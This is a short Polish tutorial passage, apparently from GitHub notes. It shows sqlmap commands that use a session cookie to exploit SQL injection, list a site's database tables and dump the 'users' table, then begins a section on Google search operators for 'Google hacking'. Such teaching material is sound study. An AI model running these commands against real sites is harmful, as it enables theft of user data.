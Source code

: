 ```sh

# Szczegółowy opis

man sqlmap

# Lista przełączników/flag

sqlmap -h

```

  

Odnalezienie zawartości cookie

![png](https://raw.githubusercontent.com/a11g0rhythm/test/main/SQL_Injection_01_cookie.png)

  

Wykonanie podatności

```sh

sudo sqlmap -u "adres_strony" --cookie="wartość_cookie"

```

  

Pozyskanie list tabel z bazy strony

```sh

sudo sqlmap -u "adres_strony" --cookie="wartość_cookie" --tables

```

  

Pozyskanie zawartości tabeli users

```sh

sudo sqlmap -u "adres_strony" --cookie="wartość_cookie" -T users --dump

```

  

## Google Hacking

Google umożliwia oprócz prostego pola wyszukiwania również wyszukiwanie zaawansowane za pomocą dodatkowych operatorów wyszukiwania. Szczegóły możemy znaleźć na poniższej stronie:

https://www.google.pl/intl/pl/help/operators.html

  

Możemy również skorzystać z [formularza zaawansowanego wyszukiwania Google](https://www.google.com/advanced_search?q=ok&hl=pl), który za nas wstawi wybrane z operatorów

